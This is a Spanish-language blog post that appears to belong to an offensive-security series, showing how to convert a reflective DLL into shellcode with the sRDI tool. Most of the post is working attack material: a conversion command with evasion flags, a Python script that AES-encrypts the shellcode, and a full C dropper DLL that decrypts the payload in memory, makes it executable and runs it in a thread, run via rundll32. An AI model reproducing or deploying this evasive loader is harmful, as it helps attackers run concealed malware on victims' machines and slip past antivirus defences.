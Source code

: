 ```yaml
---
layout: default
---
```


# Inyección de DLL en un proceso

Hasta aqui todo bien, por el momento, si has seguido el blog los procesos han inyectado payloads o shellcode, en su mismo contexto de memoria o el mapa de memoria de otro proceso. Pero ¿Que ocurre si lo que queremos es inyectar una DLL dentro de un proceso? ¿Es posible?, Si claro.

Esiste una técnica, que da una evolución de las DLL reflectivas y que como funcionalidad principal nos permite, transformar una DLL a shellCode. Esto proporciona multiples posibilidades a la hora de inyectar payloads en procesos, dado que este payload puede ser un programa completo.

# sRDI el proyecto

Se puede encontrar todo el proyecto para esta funcionalidad, en los siguientes enlaces:

[Github Repositorio](https://github.com/monoxgas/sRDI)
[NETSPI blog](https://www.netspi.com/blog/technical/adversary-simulation/srdi-shellcode-reflective-dll-injection/)

Agradecimeintos en este caso para Nick Landers @monogax, por proporcionarnos esta posibilidad de aumentar el valor de las DLL reflectivas.

# Digrama de flujo

El diagrama de flujo de la ejecución mas sencillo que podemos realizar lo expongo a continuación:

![sRDI Diagram](/assets/images/sRDI_diagram.png)


# Uso de las sRDI para una DLL reflectiva

Partiendo del código fuente que utilizamos en [Reflective DLL](./DLL_reflectivas.html)
```
regsvr32.exe implant_no_entry.dll
```

![Test_sRDI_1](/assets/images/Test_sRDI_1.png)

Utilizaremos el código en python del proyecto sRDI para transformar nuestra DLL en un payload o shellcode:

```
python sRDI\Python\ConvertToShellcode.py implant_no_entry.dll -i -d 1 -f f0ns1
Creating Shellcode: implant_no_entry.bin
```

Los parámetros -i y -d son para la obfuscación del código fuente e incrementarle un delay para la ejecución que se utilizan como técnicas de evasión pero no son necesarios.
El parámetro -f será la función de entrada de para la ejecución de la DLL

Tal y como se puede observar nos devuelve un blob o binario que tiene las siguiente estrestructira:

![sRDI Architecture](/assets/images/sRDI_shellcode_arch.png)

Imagen obtenida del enlace `NETSPI blog`

El siguiente punto será encriptar de forma simétrica con el algoritmo AES, tal y como hemos visto en post anetriores el contenido del shellcode para alojarlo en el código fuente, que será desencriptado antes de alojarse en memoria. 
Para realizar esto se utiliza el siguiente código en python:

```python
import sys
from base64 import b64encode
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
from Crypto.Random import get_random_bytes
import hashlib

KEY = get_random_bytes(16)
iv = 16 * b'\x00'
cipher = AES.new(hashlib.sha256(KEY).digest(), AES.MODE_CBC, iv)

try:
    plaintext = open(sys.argv[1], "rb").read()
except:
    print("File argument needed! %s <raw payload file>" % sys.argv[0])
    sys.exit()

ciphertext = cipher.encrypt(pad(plaintext, AES.block_size))

print('AESkey[] = { 0x' + ', 0x'.join(hex(x)[2:] for x in KEY) + ' };')
print('payload[] = { 0x' + ', 0x'.join(hex(x)[2:] for x in ciphertext) + ' };')
```
Ejecución:
```
python aes.py implant_no_entry.bin > implant_sRDI.txt
```
![Keys](/assets/images/Test_sRDI_2.png)

Y el último punto será incluirlo dentro de nuestro código inyector o dropper:

```c
#include <winternl.h>
#include <windows.h>
#include <tlhelp32.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <wincrypt.h>
#pragma comment (lib, "crypt32.lib")
#pragma comment (lib, "advapi32")
#include <psapi.h>


int AESDecrypt(char * payload, unsigned int payload_len, char * key, size_t keylen) {
        HCRYPTPROV hProv;
        HCRYPTHASH hHash;
        HCRYPTKEY hKey;
        if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)){
                        return -1;
        }
        if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)){
                        return -1;
        }
        if (!CryptHashData(hHash, (BYTE*)key, (DWORD)keylen, 0)){
                        return -1;              
        }
        if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0,&hKey)){
                        return -1;
        }
        
        if (!CryptDecrypt(hKey, (HCRYPTHASH) NULL, 0, 0, (BYTE *) payload, (DWORD *) &payload_len)){
                        return -1;
        }      
        CryptReleaseContext(hProv, 0);
        CryptDestroyHash(hHash);
        CryptDestroyKey(hKey);
        return 0;
}

unsigned char key[] = ;// {KEY}
unsigned char payload[] = ;//{Payload}

extern "C" __declspec(dllexport) void f0ns1(void) {

    void * exec_mem;
    BOOL rv;
    HANDLE th;
    DWORD oldprotect = 0;
	unsigned int payload_len = sizeof(payload);
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	AESDecrypt((char *) payload, payload_len, (char *) key, sizeof(key));
	RtlMoveMemory(exec_mem, payload, payload_len);
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);
	if ( rv != 0 ) {
					th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
					WaitForSingleObject(th, -1);
	}

}

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
		break;
    case DLL_THREAD_ATTACH:
		break;
    case DLL_THREAD_DETACH:
		break;
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

```

Se reduce a un código tan simple como una DLL que inyecta en memoria otra DLL.

Pues ya solo queda compilar y el código y probarlo.
```
rundll32.exe implant2.dll,Go
```

![Keys](/assets/images/Test_sRDI_3.png)



[Back](./)